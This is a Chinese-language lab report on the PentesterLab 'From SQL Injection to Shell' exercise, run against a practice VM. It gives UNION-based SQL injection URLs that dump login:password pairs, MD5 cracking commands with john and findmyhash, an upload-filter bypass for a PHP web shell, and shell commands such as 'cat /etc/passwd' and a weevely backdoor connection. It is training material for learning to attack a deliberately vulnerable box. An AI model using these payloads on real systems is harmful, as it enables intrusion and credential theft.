


# From SQL Injection to Shell 实验报告
## 实验环境
- Debian SQL : ```SQLfrom_sqli_to_shell_i386.iso``` 
    网络设置：NatNetwork
- kali 攻击者：```kali-linux-2018.3-amd64.iso```
    网络设置：NatNetwork

Debian SQL:
```
ip = 10.0.2.7
```
kali:
```
ip = 10.0.2.8
```

<br>
两个虚拟机之间能互相通信<br>

## 实验步骤
### 端口基本信息的获取(对象：Debian SQL)
- #### 扫描端口
    
- #### 使用Burp Suite进行获取
    ##### Burp Suite相关设置
    - 将Burp Suite默认代理拦截关闭
    
    ##### 浏览器相关设置
    - 设置浏览器代理设置
    
    ##### 使用浏览器访问Debian SQL的80端口
    
    ##### 在Burp Suite的Target->Site map中获取信息
    
- #### 使用wireshark进行获取
    ##### 使用浏览器访问Debian SQL的80端口
    ##### 打开wireshark进行抓包
    
- #### 使用telnet发送GET请求进行信息获取
    ```
    GET / HTTP/1.1
    Host: 10.0.2.7

    ```
    
- #### 使用wfuzz暴力检测 Web 服务器上的目录和页面
    查看wfuzz信息<br>
    
    
    ```
    wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://vulnerable/FUZZ
    ```
    
    ```
    wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://vulnerable/FUZZ.php
    ```
    
### SQL注入
#### 测试
- #### 初探
    使用浏览器访问Debian SQL的80端口，使用开发者工具进行观察并查看页面源代码<br>
    
    
    使用点击页面链接和直接在地址栏输入链接的方式访问<br>
    ```
    10.0.2.7/cat.php?id=1
    10.0.2.7/cat.php?id=2
    10.0.2.7/cat.php?id=3
    ```
    发现两种访问方式返回结果一致<br>
- #### SQL注入检测(寻找SQL注入漏洞简单的方法，就是通过发送特殊的数据来触发异常。)

    - ##### 基于整数的注入测试查看网页是否存在SQL注入
        1.or方法 和 and方法<bt>
        ```
        10.0.2.7/cat.php?id=1 or false
        10.0.2.7/cat.php?id=5
        10.0.2.7/cat.php?id=5 or 1=1
        ```
        返回结果为所有图片
        
        
        根据实验结果可得，只要or两端中一端为true，数据都会返回<br>
        ```
        10.0.2.7/cat.php?id=1 and 1=1
        10.0.2.7/cat.php?id=1 and 1=2
        10.0.2.7/cat.php?id=5 and 1=1
        ```
        
        根据实验结果，只要and两端中一端为false，结果为false，无数据返回<br>
        2.加法 和 减法<br>
        ```
        10.0.2.7/cat.php?id=1%2b1
        10.0.2.7/cat.php?id=2
        ```
        
        ```
        10.0.2.7/cat.php?id=2-1
        10.0.2.7/cat.php?id=1
        ```
        
        加减操作由数据库进行，可能可以进行整数注入
    - ##### 基于字符串的检测查看网页是否存在SQL注入
        1.奇数个单引号
            ```
            10.0.2.7/cat.php?id=1'
            ```
            使用or方法
            ```
            10.0.2.7/cat.php?id=1' or 1=1
            ```
            <br>
            通过单引号检测发现可能存在SQL注入，且确认后台数据库为MySQL
        2.加上--表示后面的内容被注释掉
            ```
            10.0.2.7/cat.php?id=1 --'or id=2
            ```
            
- #### SQL注入
    ##### 获取数据库中存储的用户名和密码步骤：
    
    - #####  根据SQL检测过程中的报错信息可以确认后台数据库为MySQL
    - ##### 确定发出的请求在后端返回数据库查询结果的行数
        - 使用UNION
           ```
           http://10.0.2.7/cat.php?id=1 UNION select 1
           http://10.0.2.7/cat.php?id=1 UNION select 1,2
           http://10.0.2.7/cat.php?id=1 UNION select 1,2,3
           http://10.0.2.7/cat.php?id=1 UNION select 1,2,3,4
           ```
           有结果可知行数为4
           
        - 使用order by
            ```
            http://10.0.2.7/cat.php?id=1 order by 6
            http://10.0.2.7/cat.php?id=1 order by 3
            http://10.0.2.7/cat.php?id=1 order by 4
            http://10.0.2.7/cat.php?id=1 order by 5
            ```
            
            
    - ##### 确定回显位置
         ```
            http://10.0.2.7/cat.php?id=1%20UNION%20SELECT%20@@version,2,3,4
            http://10.0.2.7/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4
            http://10.0.2.7/cat.php?id=1%20UNION%20SELECT%201,2,@@version,4
            http://10.0.2.7/cat.php?id=1%20UNION%20SELECT%201,2,3,@@version
        ```

        返回结果：<br>
        
        
        说明存在回显且回显位置为第二列<br>
    - ##### 利用information_schema数据库将所有数据表和数据表列名称显示在页面上
        ```
        http://10.0.2.7/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns
        ```
        
        由图猜测用户名和密码存储在users数据表中
    - ##### 将users数据表中的内容显示出来
        ```
        http://10.0.2.7/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;
        ```
        
- #### 分析用户名和密码
    - google搜索
        
        
    - 直接在kali里使用findmyhash
        ```
        findmyhash MD5 -h 8efe310f9ab3efeae8d410a8e0166eb2
        ```
        
        
    - 使用john实现MD5破解
        
        准备包含MD5的文件，因为之前尝试过用hashcat破解，所以解压过rockyou.txt.gz，这里直接用
        ```
        john pwd --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt --rules
        ```
        结果：<br>
        
- #### 使用用户名和密码登陆网页
    
- #### 代码注入
    - ##### 1.
        - 在Desktop目录下创建shell.php
            
        - 将此文件上传到网页上，发现应用程序阻止上传.php扩展名的文件
            
            
        - 将文件重命名为shell.php.test,上传成功
            
            
            查看网页源码,并直接访问```/show.php?id=4```<br>
            
            
            访问```admin/uploads/shell.php.test```<br>
            
        - 利用url执行cmd命令获取服务器信息
            - 获取服务器内核信息
                ```
                http://10.0.2.7/admin/uploads/shell.php.test?cmd=uname
                ```
                结果：
                
            - 获取系统用户完整列表
                ```
                http://10.0.2.7/admin/uploads/shell.php.test?cmd=cat /etc/passwd
                ```
                结果：
                
    - ##### 使用weevely注入
        - 生成由指定的密码保护的PHP后门文件
            
        - 将后门文件上传
            
        - 查看访问后面文件的url为
            ```
            http://10.0.2.7/admin/uploads/shell_1.php.test
            ```
            
        - ```
            weevely http://10.0.2.7/admin/uploads/shell_1.php.test password123
            ```            
            
        在进行此实验时还发现，在/admin 目录下删除的文件在/admin/uploads下仍然存在并且可以正常读取里面内容

## 参考资料
- [findmyhash](https://tools.kali.org/password-attacks/findmyhash)
- [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
- [KALI TOOLS -- Weevely](https://tools.kali.org/maintaining-access/weevely)


        


    


        


